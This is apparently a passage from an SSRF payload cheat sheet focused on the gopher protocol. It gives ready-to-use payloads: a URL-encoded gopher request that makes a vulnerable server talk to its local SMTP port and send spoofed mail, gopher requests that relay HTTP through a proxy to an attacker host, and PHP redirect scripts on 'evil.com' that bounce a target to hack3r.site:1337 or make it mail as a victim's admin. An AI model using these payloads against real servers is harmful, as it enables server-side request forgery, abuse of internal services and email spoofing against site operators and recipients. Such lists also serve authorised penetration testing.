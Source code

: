 ### Gopher

```powershell
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a

will make a request like
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victime@site.com>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Ah Ah AH

You didn't say the magic word !


.
QUIT
```

#### Gopher HTTP

```powershell
gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A
gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body
```

#### Gopher SMTP - Back connect to 1337

```php
Content of evil.com/redirect.php:
<?php
header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>

Now query it.
https://example.com/?q=http://evil.com/redirect.php.
```

#### Gopher SMTP - send a mail

```php
Content of evil.com/redirect.php:
<?php
        $commands = array(
                'HELO victim.com',
                'MAIL FROM: <admin@victim.com>',
                'RCPT To: <sxcurity@oou.us>',
                'DATA',
                'Subject: @sxcurity!',
                'Corben was here, woot woot!',
                '.'
        );

        $payload = implode('%0A', $commands);

        header('Location: gopher://0:25/_'.$payload);
?>
```
